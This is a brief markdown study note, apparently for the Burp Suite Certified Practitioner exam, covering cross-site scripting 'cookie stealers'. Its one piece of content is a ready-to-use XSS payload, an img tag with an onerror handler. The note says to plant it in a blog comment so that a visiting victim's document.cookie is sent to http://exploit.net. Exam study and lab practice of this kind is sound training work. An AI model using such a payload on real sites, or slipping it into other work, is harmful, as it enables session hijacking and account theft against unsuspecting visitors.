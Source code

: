 # Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

** Place payload in blog post comment section for victim to visit and send cookie. **
```
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
